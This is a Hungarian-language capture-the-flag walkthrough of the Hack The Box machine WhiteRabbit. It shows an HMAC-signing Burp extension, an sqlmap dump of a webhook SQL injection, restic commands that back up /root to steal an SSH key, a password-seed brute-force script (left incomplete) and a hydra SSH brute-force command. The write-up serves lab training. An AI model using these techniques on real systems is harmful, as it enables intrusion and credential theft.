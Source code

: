 **Platform:** Linux  
**IP:** 10.10.11.63
**Difficulty:** Insane  
**Author:** NoSec  


## Felderítés / Recon

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```
Szolgáltatás infó: OS valószínűleg Linux-alapú, a Caddy webszerver fut.

---

## Előkészítés

- **Host fájl szerkesztése**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    
- **Clock skew (időszinkron, ha szükséges)**
```bash
sudo rdate -n whiterabbit.htb
```

---

## Alközpontok és Web Feltárás

**Alközpontok felfedezése:**

A whiterabbit.htb alatti /status/ végpontot brute-force-olva (pl. gobuster,ffuf) megtaláltam a status.whiterabbit.htb-t, ami Uptime Kumát futtat. Egy kis kutakodás ([redacted URL] után a /status/temp/ oldalon új alközpontokat találtam:

- GoPhish: ddb0<link>.whiterabbit.htb
- Wikijs: a668<link>.whiterabbit.htb

**Webhookok nyomozása:**

A Wikijs endpoint ([redacted URL] egy webhookot mutatott az 28e<link>.whiterabbit.htb felé, ami gyanúsan nézett ki.

**Kihasználás / Exploitation**

SQLi a Webhookban

A webhook egy x-gophish-signature HMAC aláírást követelt. A titkos kulcsot innen szedtem ki:

Forrás: [redacted URL]
Kulcs: 3CWV<key>

Az HMAC-ot a CyberChef-fel generáltam ([redacted URL] és egy teszt payloaddal SQLi-t próbáltam:
```bash
{"campaign_id":2,"email":"test \$\"","message":"Clicked Link"}
```
Láttam egy MySQL hibát, szóval sebezhető!

**BurpSuite Automatizálás**

Manuálisan lassú volt, ezért egy Burp kiterjesztést intéztem, ami automatikusan hozzáadja az HMAC fejlécet:

```bash
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```
Telepítve a Burp Custom Extensions-ben (https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/)

**SQLmap Támadás**

Az SQLi-t sqlmap-mel automatizáltam:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Dátum               | Parancs                                                |
|-----|---------------------|---------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                             |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL] |

**Jogosultság Növelés / Privilege Escalation**

-Restic Kihasználása

Egy Restic tárolót találtam [redacted URL] jelszóval: ygcsv<redacted> Ezzel mentést csináltam a /root/-ról:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```
Kinyertem egy SSH kulcsot a morpheus-hoz, így be tudtam lépni:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt

```
User flag pipa! 🚀

**Neo Jelszó Generálás**

A /opt/neo-password-generator/neopassword-generator binárist Ghidra-val néztem meg. A gettimeofday()-ot használja seedként:

 -Számítás: tv_sec * 1000 + tv_usec / 1000 
 -20 karakteres jelszót generál rand() % 62-vel.
 
Mivel a neo 2024-08-30 14:40:42-kor futtatta, a másodperceket tudom, de a mikromásodperceket bruteforce-olnom kellett (0-999). Egy Python szkriptetvhasználtam:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
    # [Itt a rand() logika lenne, C-vel pontosabb]
```
Legeneráltam és jöhetett az SSH bruteforece.

```bash
python3 password_generator.py > passwords.txt
```

```bash
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Jelszó:
```nginx
WB<pass>
```

Miután beléptünk SSh-n már csak egy sudo -su parancsot kell használnunk, és kezünkben a root flag


```bash
root@whiterabbit:~# ls
root.txt
```

Jegyzetek & Magyarázat
Mit tanultam ebből a gépről?
Webhook és SQLi abuse: Az Uptime Kuma sebezhetőségei izgalmasak voltak, főleg az HMAC trükkökkel.
Restic kihasználás: Hát, ki gondolta, hogy egy backup tool ennyire fel tudja pörgetni a jogosultságokat?
Bináris analízis: A gettimeofday()-os jelszógenerálás bruteforce-olása igazi agytorna volt.
Automatizálás: A Burp kiterjesztés és sqlmap combo nagyon megkönnyítette az életem.

Hibák, csapdák, tanácsok
Időszinkron figyelj! Ha elcsúszik, az SSH vagy más lépések összeomlanak.
Brute-force türelem: A /status/temp/-re sokáig kerestem, jó lista kell!
Spoilermentes írás: Ne adj ki mindent, hadd élvezzék mások is a nyomozást.
Tesztelj mindent: Az HMAC kulcsot kétszer ellenőriztem, mielőtt sqlmap-et indítottam.

Összegzés
A WhiteRabbit egy menő gép, ami a webes kihasználástól a kreatív jogosultság-növelésig visz. Az Uptime Kuma, SQLi, Restic és a bináris analízis egy szuper mix, amit minden pentester kipróbálhat. User és root flag is megvan, szóval elégedett vagyok! 🚀

Ajánlom mindenkinek, aki szereti a kihívásokat és az AD-s gépek helyett valami mást akar!
Bárkinek kérdése van, nyugodtan keressen!


